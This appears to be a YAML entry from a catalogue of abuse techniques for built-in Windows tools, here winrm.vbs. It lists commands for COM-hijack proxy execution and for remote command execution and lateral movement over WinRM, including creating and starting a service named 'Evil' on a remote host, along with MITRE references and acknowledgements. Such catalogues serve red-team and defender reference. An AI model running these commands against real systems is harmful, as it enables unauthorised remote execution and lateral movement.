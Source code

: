```yaml
---
name: winrm.vbs
description: Script used for manage Windows RM settings
functions:
  execute:
    - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
      code: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
resources:
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
    - resource: https://redcanary.com/blog/lateral-movement-winrm-wmi/
    - resource: https://twitter.com/bohops/status/994405551751815170
fullpath:
    - path: C:\Windows\System32\winrm.vbs
    - path: C:\Windows\SysWOW64\winrm.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

